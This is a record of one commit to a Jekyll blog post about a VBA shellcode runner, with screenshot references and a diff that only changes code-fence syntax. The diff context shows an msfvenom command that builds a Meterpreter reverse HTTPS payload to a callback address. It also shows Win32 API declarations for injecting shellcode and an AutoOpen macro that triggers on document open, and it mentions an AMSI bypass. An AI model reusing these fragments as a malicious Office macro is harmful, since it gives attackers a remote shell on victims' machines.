

Before and after one commit to handyteddy/Ratilovich, a Jekyll site: the page built from _posts/2022-05-14-xdev-vbashellcode-runner.md, in a window 1280 px wide and 1400 px high, scrolled down 2870 px. Shown: the whole window, without its empty margins (309-971 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; some of the changed text lies outside the part shown.

Commit message:
Update 2022-05-14-xdev-vbashellcode-runner.md

````diff
--- a/_posts/2022-05-14-xdev-vbashellcode-runner.md
+++ b/_posts/2022-05-14-xdev-vbashellcode-runner.md
@@ -95,7 +95,7 @@ Now Input the output of the helper.exe {which is an encrypted reverse shellcode}
 msfvenom -p windows/meterpreter/reverse_https LHOST=192.168.119.120 LPORT=443 EXITFUNC=thread -f vbapplication
 
 
-```js
+{% highlight vb %}
 Private Declare PtrSafe Function CreateThread Lib "KERNEL32" (ByVal SecurityAttributes As Long, ByVal StackSize As Long, ByVal StartFunction As LongPtr, ThreadParameter As LongPtr, ByVal CreateFlags As Long, ByRef ThreadId As Long) As LongPtr
 
 Private Declare PtrSafe Function VirtualAlloc Lib "KERNEL32" (ByVal lpAddress As LongPtr, ByVal dwSize As Long, ByVal flAllocationType As Long, ByVal flProtect As Long) As LongPtr
@@ -160,8 +160,7 @@ End Sub
 Sub AutoOpen()
 	MyMacro
 End Sub
-
-```
+{% endhighlight %}
 
 another of my custom VBA runner with AMSI bypass abd other goodies **read comments**
 
````
